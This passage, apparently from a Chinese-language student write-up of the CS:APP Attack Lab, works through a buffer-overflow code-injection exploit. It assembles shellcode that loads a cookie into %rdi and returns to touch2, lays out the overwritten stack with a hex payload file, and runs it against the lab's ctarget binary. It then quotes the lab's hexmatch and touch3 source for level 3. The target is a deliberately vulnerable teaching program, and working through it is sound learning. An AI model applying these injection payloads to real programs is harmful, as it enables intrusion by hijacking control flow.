 查看他的字节序表示

```sh
Attack Lab$ vim l2.s
Attack Lab$ gcc -c l2.s
Attack Lab$ objdump -d l2.o

l2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq  
```

stack : `padding(00..) + pop_rdi(0x40141b) + arg1(cookies) + touch2(0x4017ec)`

<img src="https://www.kro1lsec.com:442/images/2021/05/09/20210509204939.png" alt="image-20210504202508398" style="zoom: 50%;" />

```touch2.txt
48 c7 c7 fa
97 b9 59 68
ec 17 40 00
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 dc 61 55
```

```sh
Attack Lab$ ./hex2raw <touch2.txt>2.txt 
Attack Lab$ ./ctarget -qi 2.txt 
```

### **1.3level 3**

`hexmatch`和`touch3`的代码如下。

```c
/* Compare string to hex represention of unsigned value */
 int hexmatch(unsigned val, char *sval)
{
     char cbuf[110];
     /* Make position of check string unpredictable */
     char *s = cbuf + random() % 100;
     sprintf(s, "%.8x", val); //s=val=cookie
     return strncmp(sval, s, 9) == 0; //比较cookie和第二个参数的前9位是否相同
   // cookie只有8字节。这里为9的原因是我们要比较最后一个是否为'\0'
 }
void touch3(char *sval)
 {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) { //相同则成功
         printf("Touch3!: You called touch3(\"%s\")\n", sval);
         validate(3);
    } else {
         printf("Misfire: You called touch3(\"%s\")\n", sval);
         fail(3);
     }
    exit(0);
```